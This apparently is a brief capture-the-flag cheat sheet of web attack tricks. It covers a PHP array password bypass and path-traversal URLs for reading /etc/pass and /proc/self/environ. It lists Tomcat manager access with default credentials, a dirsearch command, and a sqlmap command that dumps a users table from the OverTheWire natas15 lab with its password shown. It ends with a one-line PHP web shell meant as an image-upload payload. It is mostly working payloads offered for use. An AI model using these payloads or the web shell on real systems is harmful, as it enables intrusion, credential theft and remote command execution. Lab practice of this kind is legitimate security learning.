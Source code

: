# Tips and Tricks for Web


## PHP []
When Submit was pressed, a POST request was sent to the server containing:  
```
password=yourinput
```
We break the application by passing an array as the password.  
```
password[]=
```

### Web Upload

If we have a LFRU (Local File Remote Upload) we use:
`http://website.com:port/files/../../../../etc/pass`.
If that doesnt work we then use
`http://website.com:port/files/..%2F..%2F..%2F..%2Fetc%2Fpass`
for LFI.

If `etc/pass` is useless we use then `/proc/self/environ` by `http://website.com:port/files/..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron`
Add more %2F inbetween if needed.

## Tomcat Manager
Apache Tomcat has a `manager`, so inorder to access him we place this at the end of the url `/manager/html`.  
If luck still isnt on our side, we add tomcat default credentials too at the begining of the url, such as: `http://tomcat:tomcat@host:proxy/manager/html`

### Tools

## dirsearch

python3 dirsearch.py -u host --proxy=http://host:port/ -e sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar

## SQL Map
./sqlmap.py --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -u http://natas15.natas.labs.overthewire.org/index.php --data="username=a" -p username --string=doesn --level=5 --user-agent=Mozilla --dbms=MySQL --threads 4 -D natas15 -T users --dump

## Image Valun
<?php system($_GET['cmd']); die(); ?>
